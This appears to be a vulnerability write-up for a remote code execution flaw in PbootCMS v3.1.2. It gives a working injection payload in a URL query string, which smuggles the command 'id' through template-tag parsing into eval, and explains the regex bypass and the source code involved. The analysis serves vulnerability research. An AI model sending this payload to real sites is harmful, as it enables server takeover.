 ## PbootCMS v3.1.2 RCE

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

![image-20220525003611932](https://camo.githubusercontent.com/038c9561fcfc03789a94a453eced386c365d083ef9bde95687400892a9bd12d0/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532353030333631313933322e706e67)

debug：

Finally we execute the malicious code in the `parserIfLabel` using eval

```
eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
```

Call Stack

```
ParserController.php:3310, app\home\controller\ParserController->parserIfLabel()
ParserController.php:84, app\home\controller\ParserController->parserAfter()
SearchController.php:42, app\home\controller\SearchController->index()
IndexController.php:53, app\home\controller\IndexController->_empty()
2:2, core\basic\Kernel::zilvriijuizzauc606dfdd68060e63ad8f7c7ddd49b8b8()
2:2, core\basic\Kernel::run()
start.php:17, require()
index.php:23, {main}()
```

First bring in the payload, after rendering the template the system will load the malicious statement

![image-20220524234447190](https://camo.githubusercontent.com/75a2f9b337d8f63a8a8338d84f24467389b3b16a68faebef35adc1ad9b8a3e4b/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532343233343434373139302e706e67)

So let's follow up with the initial rendering template section

![image-20220524235013077](https://camo.githubusercontent.com/f73d17528d6826d198bda301b57ebce7421635a3abad64a1f07f649eb59dfbc2/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532343233353031333037372e706e67)

Continue to see `$content = ob_get_contents();` Here the url is output directly and then saved to `$content`.

![image-20220524235106334](https://camo.githubusercontent.com/9816b4a3a8a3afe986e8168e57e29110cd6c6adafdf61a94426f2ff14d6908b5/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532343233353130363333342e706e67)

Then there is no point in filtering for keywords after that

The problem actually lies in the QR code generation function `parserQrcodeLabel`

![image-20220525000915537](https://camo.githubusercontent.com/c6a7af4e0ebdca3375f64e3366d2433b3e9b32d24f29568d12da6dcb511a6f6c/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532353030303931353533372e706e67)

Here the content of the tag QR code is matched, and then it will generate the QR code link

![image-20220525001354043](https://camo.githubusercontent.com/e7eaf98758977fe2742e755fa7698c229a89d2275433cd3cb3db0e9f26337130/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532353030313335343034332e706e67)

If we want to exploit this, we need to make sure that our malicious code is not matched in this step, and here we need to do a bypass of the regular

```
/\{pboot:qrcode(\s+[^}]+)?\}/
```

It is easy to see that we just need to make a closure using `}`

Next `$content` goes through a series of functions to the `parserIfLabel` function

We use `get_lg` and `get_backurl` functions with regular bypass to complete the RCE

Both functions are in `function.php`

`get_lg` is the field from which the `cookie lg` is taken

```
// 获取当前语言并进行安全处理Å
function get_lg()
{
    $lg = cookie('lg');
    if (! $lg || ! preg_match('/^[\w\-]+$/', $lg)) {
        $lg = get_default_lg();
        cookie('lg', $lg);
    }
    return $lg;
}
```

`get_backurl` is from `get`

```
// 获取返回URL
function get_backurl()
{
    if (! ! $backurl = get('backurl')) {
        if (isset($_SERVER["QUERY_STRING"]) && ! ! get('p')) {
            return "&backurl=" . $backurl;
        } else {
            return "?backurl=" . $backurl;
        }
    } else {
        return;
    }
}
```

Since the vulnerability point does not exist in `search`, it can be called from any interface


